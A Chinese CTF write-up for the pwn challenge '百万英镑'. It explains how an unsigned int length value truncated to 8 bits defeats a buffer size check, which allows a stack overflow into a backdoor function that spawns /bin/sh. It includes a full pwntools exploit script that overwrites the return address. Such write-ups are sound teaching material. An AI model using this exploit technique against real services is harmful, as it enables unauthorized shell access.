

# 百万英镑（150分）

## 漏洞分析

### 第一步：漏洞定位（静态分析）

##### 关键代码片段👇

###### main中的读入和检查：

```c
    number = read_number();
    n0x60 = cheque_bytes(number);
    if ( n0x60 <= 0x60u )
    {
        printf("What would you like written, sir? ");
        read_exact(0, v4, 8 * number);
        puts("Very good, sir.");
    }
```

###### cheque_bytes的实现：

```c
__int64 __fastcall cheque_bytes(int a1)
{
  return (unsigned int)(8 * a1);
}
```

#### 关键问题：
- `cheque_bytes`返回的是 `unsigned int`（32位），但 `n0x60` 是 `unsigned __int8`（8位），赋值时**高位被截断**。
- 输入 `32` 时：`8 * 32 = 256`，二进制 `0x100`，截断后低 `8` 位为 `0x00`，所以 `n0x60 = 0`，`if (0 <= 0x60)` 通过。
- `read_exact` 使用的是原始的 `number`（64位），实际读取 `8 * 32 = 256` 字节，远超缓冲区。

#### 栈布局：

```c
 _BYTE v4[103]; // [rsp+0h] [rbp-70h] BYREF
```

- 缓冲区 `v4` 起始于 `rbp-0x70`，大小 `103` 字节。
- 返回地址在 `rbp+8`。
- 因此从 `v4` 到返回地址的偏移 = `0x70 + 8 = 0x78`（120 字节）。

### 第二步：后门函数

在 IDA 中找到 `staff_room` 函数：

```c
int staff_room()
{
  char *argv[2]; // [rsp+0h] [rbp-10h] BYREF

  argv[0] = "/bin/sh";
  argv[1] = 0;
  return execve("/bin/sh", argv, 0);
}
```

它的偏移地址是 `0x1394`（假设程序无 PIE，直接用绝对地址）。

###### 附上checksec：


## 利用思路

1. 程序提示输入数量时，输入 `32`。
2. 程序提示输入“支票内容”时，发送 256 字节的 Payload：
   - 前 120 字节填充垃圾（覆盖到返回地址）。
   - 后 `8` 字节写入 `staff_room` 的绝对地址（例如 `0x401394`，因 No PIE）
3. 程序执行完 `main` 后 `ret`，跳转到后门，拿到 `Shell`。

## Exploit 脚本

```py
from pwn import *

r = remote('ip', port)

STAFF_ROOM = 0x401394   # 实际地址，No PIE

# 1. 输入数量 32
r.recvuntil(b"How many should I prepare? ")
r.sendline(b"32")

# 2. 输入 Payload
r.recvuntil(b"What would you like written, sir? ")
payload = b'A' * 120          # 覆盖到返回地址
payload += p64(STAFF_ROOM)    # 覆盖返回地址
payload = payload.ljust(256, b'B')  # 补齐 256 字节
r.send(payload)

r.interactive()
```

## 一句话概括：
> 通过输入 `32`，让 `cheque_bytes(32)=256` 被截断为 `0`，从而绕过长度检查，触发栈溢出覆盖返回地址，跳转到后门函数。

**注意：** 这不是**常规的“长度检查”漏洞**，而是**类型截断导致检查失效**，是一个典型的“**整数溢出**”变种。